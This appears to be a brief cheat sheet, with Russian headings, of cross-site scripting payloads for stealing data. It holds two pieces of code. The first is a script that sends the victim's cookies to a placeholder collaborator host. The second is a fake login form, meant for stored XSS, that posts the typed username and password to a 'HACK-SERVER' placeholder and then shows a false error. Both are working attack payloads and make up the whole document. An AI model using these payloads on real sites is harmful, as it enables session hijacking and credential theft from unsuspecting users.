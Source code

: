 #### Скрипт на отправку куки файлов жертвы
```
<script> 
	fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { 
	method: 'POST', 
	mode: 'no-cors', 
	body:document.cookie 
	}); 
</script>
```

#### Скрипт для сохранённой уязвимости чтоб украсть данные логина пароля по веб табличке
```
<div style="margin: 20px; padding: 20px; border: 1px solid #ccc; border-radius: 5px; background: #f9f9f9;">
  <h3 style="font-size: 18px; color: #333;">Please into system</h3>
  <label for="username" style="display: block; margin-bottom: 10px; font-weight: bold;">
    Username:
  </label>
  <input
    type="text"
    id="username"
    name="username"
    placeholder="Enter your login"
    style="width: 100%; padding: 8px; margin-bottom: 15px; border: 1px solid #ccc; border-radius: 4px;"
  />
  <label for="password" style="display: block; margin-bottom: 10px; font-weight: bold;">
    Passwd:
  </label>
  <input
    type="password"
    id="password"
    name="password"
    placeholder="Enter your passwd"
    style="width: 100%; padding: 8px; margin-bottom: 15px; border: 1px solid #ccc; border-radius: 4px;"
    onchange="if(this.value.length) fetch('https://HACK-SERVER', {
      method: 'POST',
      mode: 'no-cors',
      body: username.value + ':' + this.value
    });"
  />
  <button
    style="background: #007bff; color: white; padding: 10px 20px; border: none; border-radius: 4px; cursor: pointer;"
    onclick="alert('Error.');"
  >
	Login into
  </button>
</div>
```
